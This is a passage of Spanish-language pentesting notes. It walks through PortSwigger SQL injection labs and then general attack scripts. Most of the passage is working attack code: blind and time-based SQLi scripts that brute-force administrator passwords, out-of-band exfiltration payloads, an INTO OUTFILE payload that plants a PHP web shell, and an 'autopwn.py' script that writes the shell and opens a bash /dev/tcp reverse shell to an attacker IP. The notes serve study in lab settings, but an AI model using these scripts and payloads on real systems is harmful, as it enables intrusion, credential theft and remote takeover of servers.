'||(select case when (1=1) then pg_sleep(10) else pg_sleep(0) end from users where username='administrator' and lenght(password)>=20)-- -;
```

Con esto comprobamos que la contarseña tenga 20 caracteres, si va bien tardara 10 segundos en respondernos...

```mysql
'||(select case when substring(username,1,1)='a' then pg_sleep(10) else pg_sleep(0) end from users where username='administrator')-- -;
```

Con esto comprobamos que vaya esta mecanica de comprobar letras por filas, con el nombre de usuario, ya que se cumple la comparacion de que el `username` `administrator` empieza por la letra `a` tardara 10 segundos en respondernos la pagina por lo que funciona, ahora lo mismo pero con la `password` implementandolo en el script...

```mysql
'||(select case when substring(password,1,1)='a' then pg_sleep(10) else pg_sleep(0) end from users where username='administrator')-- -;
```

Ahora todo esto lo vamos a implementar en el script de `python3` quedando de la siguiente manera...

```python
#!/usr/bin/python3

from pwn import *
import requests, signal, time, pdb, sys, string

def def_handler(sig, frame):
        print("\n\n[!] Saliendo...\n")
        sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

main_url = "https://0a6600b9032c16a080e253b500290045.web-security-academy.net"
characters = string.ascii_lowercase + string.digits

def makeRequest():

        password = ""

        p1 = log.progress("Fuerza bruta")
        p1.status("Iniciando ataque de fuerza bruta")

        time.sleep(2)

        p2 = log.progress("Password")

        for position in range(1, 21):   #Esto hace que pruebe hasta 20 caracteres
                for character in characters:

                        cookies = {
                                'TrackingId': "fdDQYd0euaN829vd'||(select case when substring(password,%d,1)='%s' then pg_sleep(1.5) else pg_sleep(0) end from users where username='administrator')-- -" % (position, character),
                                'session': 'BbXQwHYZxUm7EVaew4zA2uNgh4QKq8hi'
                        }

                        p1.status(cookies['TrackingId'])

                        time_start = time.time()

                        r = requests.get(main_url, cookies=cookies)

                        time_end = time.time()

                        if time_end - time_start > 1.5: #Comparacion si el tiempo que tarda es mayor que 1.5 es la correcta
                                password += character
                                p2.status(password)
                                break

if __name__ == '__main__':

        makeRequest()
```

Unicamente tenemos que cambiar la mecanica de la comparacion que hace `r.status_code == 500` por `time_end - time_start > 1.5` a parte de que añadimos `time_start = time.time() y time_end = time.time()`y ya todo lo demas a lo que se nos ajuste a nuestro `request`...

```shell
python3 SQLI_Blind.py
```

Info:

```
[/] Fuerza bruta: fdDQYd0euaN829vd'||(select case when substring(password,20,1)='l' then pg_sleep(1.5) else pg_sleep(0) end from users where username='administrator')-- -
[ ] Password: 5xskvx9lqcuwtq1rakul
```

Con esto ya tendriamos la contraseña, por lo que nos logeamos y estaria listo...

### Lab: Blind SQL injection with out-of-band interaction

Aqui no va a servir nada de lo anterior ya que se tiene que hacer de una manera especifica, utilizando BurpSuit e interactuando con los servidores `DNS` y hacer un `DNS Lookup`...

En este caso tienes que tener BurpSuit comprado para hacer la parctica ya que tendriamos que obtener el codigo del `BurpSuit Colaboration Client` para poder ponerlo en el siguiente codigo, pero si se tuviera se inyectaria de la siguiente manera...

```mysql
'||(SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://<CODIGO_BURPSUIT_COLABORATION>/"> %remote;]>'),'/l') FROM dual)-- -
```

Y todo esto se tendria que URL Encodear para que funcione presionando `^U` en BurpSuit...

Quedaria algo tal que asi encodeado en URL...

```
'||(SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//<CODIGO_BURPSUIT_COLABORATION>/">+%25remote%3b]>'),'/l')+FROM+dual)--+-
```

### Lab: Blind SQL injection with out-of-band data exfiltration

En este caso es lo mismo que antes pero en modo `exfiltration`, lo hariamos de la siguiente manera...

```mysql
'||(SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(select username from users where username='administrator')||'.<CODIGO_BURPSUIT_COLABORATION>/"> %remote;]>'),'/l') FROM dual)-- -
```

Esto habria que URL Encodearlo, por lo que tendria que quedar algo tal que asi...

```
'||(SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(select+username+from+users+where+username%3d'administrator')||'.<CODIGO_BURPSUIT_COLABORATION>/">+%25remote%3b]>'),'/l')+FROM+dual)--+-
```

### Lab: SQL injection with filter bypass via XML encoding

Lo que tienes que hacer aqui es inyectar codigo SQL en algun campo de los que se muestra en la pagina de seleccion, por lo que con el BurpSuit capturamos la peticion estando a la escucha y dandole al boton `check stock`, una vez hecho esto estariamos viendo el `request`, por lo que el codigo que tendremos que inyectar sera en el siguiente campo...

```html
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
	<productId>
		1
	</productId>
	<storeId>
		1
	</storeId>
</stockCheck>
```

Nuestro codigo lo inyectaremos en la seccion de `storeId` pero no lo podemos inyectar asi a pelo...

```html
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
	<productId>
		1
	</productId>
	<storeId>
		1 union select NULL-- -
	</storeId>
</stockCheck>
```

Info:

```
"Attack detected"
```

Por que no va a funcionar, por lo que utilizaremos una cosa especial que hay que instalar en BurpSuit que nos facilitara toda esta tarea de codificarlo...

En BurpSuit nos vamos a la seccion de `Extensiones` y en la casilla de `BAppStore` dentro de ahi buscamos la herramienta llamada `Hackvertor` y la instalamos...

Una vez instalada nos volvemos a donde tenemos el codigo, seleccionamos el codigo `1 union select NULL-- -`, click derecho, nos vamos a la opcion que pone `Extensiones`, de ahi vamos a `Hackvector`, nos vamos a `Encode` y dentro de esta opcion habra varias codificaciones, en mi caso elijo la llamada `hex_entities`, se nos quedara de esta manera...

```html
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
	<productId>
		1
	</productId>
	<storeId>
		<@hex_entities>
			1 union select NULL-- -
		<@/hex_entities>
	</storeId>
</stockCheck>
```

Con esto ahora si va a funcionar ese comando y sabiendo que funciona ese comando hacemos lo siguiente...

```html
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
	<productId>
		1
	</productId>
	<storeId>
		<@hex_entities>
			1 union select password from users where username='administrator'-- -
		<@/hex_entities>
	</storeId>
</stockCheck>
```

Info:

```html
HTTP/2 200 OK

Content-Type: text/plain; charset=utf-8

X-Frame-Options: SAMEORIGIN

Content-Length: 30


182 units
jc9kmc948berlabi1y60
```

> credentials

```
username = administrator
password = jc9kmc948berlabi1y60
```

Nos registramos y ya estaria hecho...

## <mark style="color:purple;">SQL Injection Script</mark>

Con el siguiente script de `python` podremos determinar el `username` del usuario en la tabla llamada `users` mediante `SQL Injection` con el tipo de base de datos `mysql` y la tecnica llamada `SQLI_Conditional`...

Para que funcione la barra de decoracion que se esta importando en el script hacemos lo siguiente...

```shell
pip install pwn
```

Una vez hecho eso, ejecutamos el script...

```python
#!/usr/bin/python3

from pwn import *
import requests, pdb, string, signal, sys, time

def def_handler(sig, frame):
        print("\n\n[!] Saliendo...\n")
        sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

# Variables globales
login_url = "http://<IP>/<LOGIN>"
characters = string.ascii_lowercase + "-_"

def makeRequest():

        p1 = log.progress("Fuerza bruta")
        p1.status("Iniciando proceso de fuerza bruta")

        time.sleep(2)

        username = ""

        p2 = log.progress("Usuario")

        for position in range(1, 20):   #El rango de caracteres que pueda tener el usuario
                for character in characters:
                        post_data = {
                                'username' : "' or (select substring(username, %d,1) from users limit 1)='%s'-- -" % (position, character),     #Donde pone username de esta linea es el contenido de la tabla que en este caso se llama username que queremos descubrir ya que por defecto la tabla se llama asi, y la otra por defecto para saber en nombre de usuario es name la cual tambien tendriamos que probar, si no supieramos nada de esto, tendriamos que empezar explotando el nombre de la base de datos...
                                'password' : 'test'
                        }

                        p1.status(post_data['username'])

                        r = requests.post(login_url, data=post_data)

                        if r.text == "1":       #Parametro de la comparacion para saber si es True o False

                                username += character
                                p2.status(username)
                                break

if __name__ == '__main__':

        makeRequest()
```

Su funcion es determinar mediante un parametro en especifico el cual se tiene que cambiar dependiendo de las necesidades de cada uno, en este caso cuando el parametro de respuesta es un `1` significa que es correcto y cuando es `3` significa que es un `error`, por lo que el script se guia por ese parametro y entorno a eso va sacando el nombre letra por letra sabiendo que `1` es `True` y `3` es `False`, con eso se descubre el `username` del usuario, si se intenta descubrir mas alla del mismo se tendra que aumentar la inyeccion de codigo en el script conservando la funcion de ataque guiado por el parametro...

Si queremos sacar la `password` una vez sabiendo el nombre del usuario, modificaremos la inyeccion y añadiremos lo siguiente...

Para determinar por lo menos cual es el primer caracter de la `password` o la longitud de la misma se puede utilizar `BurpSuit` con el `Intruder` para ver aunque sea el primero y de ahi modificar el script a nuestra manera...

> EJEMPLO...

Suponiendo que el usuario sea `enemigosss` y la primera letra de la `password` sea la letra `s` para saber la longitud de la `password` haremos lo siguiente...

```mysql
' or (select substring(password, 1,1) from users where username='enemigosss' and length(password)>20)='s'-- -
```

Sabiendo lo larga que es pondremos ese signo `>=`...

```mysql
' or (select substring(password, 1,1) from users where username='enemigosss' and length(password)>20)>='s'-- -
```

Y una vez sabiendo la longitud, cambiaremos el script un poco para adaptarlo a nuestras nuevas necesidades...

```mysql
' or (select substring(password, %d,1) from users where username='enemigosss')='%s'-- -
```

El script adaptado...

```python
#!/usr/bin/python3

from pwn import *
import requests, pdb, string, signal, sys, time

def def_handler(sig, frame):
        print("\n\n[!] Saliendo...\n")
        sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

# Variables globales
login_url = "http://<IP>/<LOGIN>"
characters = string.ascii_lowercase + string.ascii_uppercase + string.digits

def makeRequest():

        p1 = log.progress("Fuerza bruta")
        p1.status("Iniciando proceso de fuerza bruta")

        time.sleep(2)

        password = ""

        p2 = log.progress("Usuario")

        for position in range(1, 22):   #El rango de caracteres que pueda tener el usuario
                for character in characters:
                        post_data = {
                                'username' : "' or (select hex(substring(password, %d,1)) from users where username='enemigosss')=hex('%s')-- -" % (position, character),     #Donde pone hex() significa que estamos jugando con el formato hexadecimal para que nos detecte si es mayuscula o minuscula la letra y con sus respectibos simbolos...
                                'password' : 'test'
                        }

                        p1.status(post_data['username'])

                        r = requests.post(login_url, data=post_data)

                        if r.text == "1":       #Parametro de la comparacion para saber si es True o False

                                password += character
                                p2.status(password)
                                break

if __name__ == '__main__':

        makeRequest()
```

A parte si queremos saber como se llama la tabla que contiene ese usuario, podremos utilizar una tabla que suele venir por defecto en las bases de datos llamada `name` por lo que sustituimos `username` por `name`...

Si queremos sacar el nombre de la base de datos, tendremos que modificar la inyeccion de codigo de otra manera, por lo que el script se tendra que modificar a las necesidades de cada uno...

> EJEMPLO (NOMBRE BASE DE DATOS)

```python
#!/usr/bin/python3

from pwn import *
import requests, pdb, string, signal, sys, time

def def_handler(sig, frame):
        print("\n\n[!] Saliendo...\n")
        sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

# Variables globales
login_url = "http://<IP>/<LOGIN>"
characters = string.ascii_lowercase + "-_"

def makeRequest():

        p1 = log.progress("Fuerza bruta")
        p1.status("Iniciando proceso de fuerza bruta")

        time.sleep(2)

        database = ""

        p2 = log.progress("Usuario")

        for position in range(1, 22):   #El rango de caracteres que pueda tener el usuario
                for character in characters:
                        post_data = {
                                'username' : "' or if(substr(database(),%d,1)='%s', sleep(5), 1)-- -" % (position, character),     #Aqui lo que hacemos es que mediantes sleep's y con la comparacion de si es 1 es True sacar el nombre de la base de datos...
                                'password' : 'test'
                        }

                        p1.status(post_data['username'])

						time_start = time.time()

                        r = requests.post(login_url, data=post_data)

						time_end = time.time()

                        if time_end - time_start > 5:       #Parametro de la comparacion para saber si es True o False con los tiempos de sleep's (Si tarda 5 segundos en responder es True, de lo contrario es False)

                                database += character
                                p2.status(database)
                                break

if __name__ == '__main__':

        makeRequest()
```

Pero para automatizar todo esto mas podremos utilizar la herramienta llamada `sqlmap` y con sus parametros necesarios dependiendo del tipo de ataque que queramos hacer...

### SQL Injection depositar archivos

Para aprovechar una vulnerabilidad de `mysql` en vez de para ver bases de datos, para poder cargar un archivo malicioso, probaremos si se puede haciendo lo siguiente...

> EJEMPLO

Pongamos que tenemos la siguiente `URL`...

```
URL = http://example.com/example.php
```

Y dentro de ese `.php` es vulnerable en algun `input` a `SQL Injection`, pondremos el siguiente comando para comprobar que se pueden subir archivos...

Supongamos que la ruta donde se esta ejecutando todo esto esta en la que viene por defecto `/var/www/html/` y si es asi, haremos lo suguiente...

```mysql
' UNION SELECT "<CONTENT_NAME>" INTO OUTFILE "/var/www/html/<FILE_NAME>.txt"-- -
```

Aplicado a nuestro caso...

```mysql
' UNION SELECT "example" INTO OUTFILE "/var/www/html/test.txt"-- -
```

Una vez hecho esto habremos creado el siguiente archivo con la palabra `example` en el archivo `test.txt` lo comprobaremos llendo a la siguiente ruta...

```
URL = http://example.com/test.txt
```

Info (contenido):

```
example
```

Por lo que vemos que funciona...

Vamos a crear un parametro llamado `cmd` para poder ejecutar comando de forma libre ya que interpreta `php` de la siguiente manera...

```mysql
' UNION SELECT "<?php system($_REQUEST['cmd']); ?>" INTO OUTFILE "/var/www/html/test.php"-- -
```

Por lo que una vez enviado esta peticion si nos vamos a la siguiente ruta donde deberia de estar...

```
URL = http://example.com/test.php
```

Nos deberia de aparecer una pagina en blanco o con algunos datos, pero que no seran importantes, una vez dentro de este archivo en la `URL` pondremos lo siguiente...

```
URL = http://example.com/test.php?cmd=<COMMAND>
```

> EJEMPLO

```
URL = http://example.com/test.php?cmd=whoami
```

Y si enviamos eso nos aparecera en este caso el nombre de usuario pintado en la pagina, por lo que vemos que funciona y ya podriamos explotarlo de muchas formas...

Si queremos automatizar todo esto con un script, haremos lo siguiente...

Llamaremos al archivo `autopwn.py`...

```python
#!/usr/bin/python3

from pwn import *
import signal, pdb, requests

def def_handler(sig, frame):
        print("\n\n[!] Saliendo...\n")
        sys.exit(1)

#Ctlr+C
signal.signal(signal.SIGINT, def_handler)

if len(sys.argv) != 3:
        log.failure("Uso: %s <ip-address> filename" % sys.argv[0])
        sys.exit(1)

# Varianles globales
ip_address = sys.argv[1]
filename = sys.argv[2]
main_url = "http://%s/" % ip_address

def createFile():

        data_post = {
                'username': 'admin',
                'country': """Brazil' UNION SELECT "<?php system($_REQUEST['cmd']); ?>" INTO OUTFILE "/var/www/html/%s"-- -""" % (filename)
        }

        r = requests.post(main_url, data=data_post)

if __name__ == '__main__':

        createFile()
```

Con este script de `python` ajustado a las necesidades de cada uno te creara un archivo en la `IP` que le indiques y si tuviera una ruta diferente despues de la `/` se modifica la parte de `main_url = "http://%s/" % ip_address` añadiendo despues de la `/` lo que sea necesario y los paraemtros de `username y country` igual...

Pero si a parte de crear el script quieres automatizarlo mas aun creando una `Reverse Shell` seguidamente, lo modficaremos haciendo lo siguiente...

```python
#!/usr/bin/python3

from pwn import *
import signal, pdb, requests

def def_handler(sig, frame):
        print("\n\n[!] Saliendo...\n")
        sys.exit(1)

#Ctlr+C
signal.signal(signal.SIGINT, def_handler)

if len(sys.argv) != 3:
        log.failure("Uso: %s <ip-address> filename" % sys.argv[0])
        sys.exit(1)

# Varianles globales
ip_address = sys.argv[1]
filename = sys.argv[2]
main_url = "http://%s/" % ip_address

def createFile():

        data_post = {
                'username': 'admin',
                'country': """Brazil' UNION SELECT "<?php system($_REQUEST['cmd']); ?>" INTO OUTFILE "/var/www/html/%s"-- -""" % (filename)
        }

        r = requests.post(main_url, data=data_post)

def getAccess():

        data_post = {
        'cmd': "bash -c 'bash -i >& /dev/tcp/<IP>/<PORT> 0>&1'"
        }

        r = requests.post(main_url + "%s" % filename, data=data_post)

if __name__ == '__main__':

        createFile()
        getAccess()
```

Tendremos que cambiar los parametros `<IP>` y `<PORT>` a nuestras necesidades para la `Reverse Shell`...

Pero cuando lo ejecutemos tendremos que estar a la escucha...

```shell
nc -lvnp <PORT>
```

Si por queremos automatizarlo todavia mas para que el propio script te de la shell directamente sin tu tener que estar a la escucha, haremos lo siguiente...

```python
#!/usr/bin/python3

from pwn import *
import signal, pdb, requests

def def_handler(sig, frame):
        print("\n\n[!] Saliendo...\n")
        sys.exit(1)

#Ctlr+C
signal.signal(signal.SIGINT, def_handler)

if len(sys.argv) != 3:
        log.failure("Uso: %s <ip-address> filename" % sys.argv[0])
        sys.exit(1)

# Varianles globales
ip_address = sys.argv[1]
filename = sys.argv[2]
main_url = "http://%s/" % ip_address
lport = <PORT>

def createFile():

        data_post = {
                'username': 'admin',
                'country': """Brazil' UNION SELECT "<?php system($_REQUEST['cmd']); ?>" INTO OUTFILE "/var/www/html/%s"-- -""" % (filename)
        }

        r = requests.post(main_url, data=data_post)

def getAccess():

        data_post = {
        'cmd': "bash -c 'bash -i >& /dev/tcp/<IP>/<PORT> 0>&1'"
        }

        r = requests.post(main_url + "%s" % filename, data=data_post)

if __name__ == '__main__':

        createFile()
        try:
                threading.Thread(target=getAccess, args=()).start()
        except Exception as e:
                log.error(str(e))

        shell = listen(lport, timeout=20).wait_for_connection()
        shell.interactive()
        getAccess()
```

En este caso ajustarlo a tu `IP` y `PUERTO` en lo dicho anteriormente y en la seccion de `lport = <PORT>` una vez ajustado esto y ejecutado tendremos una shell interactiva...
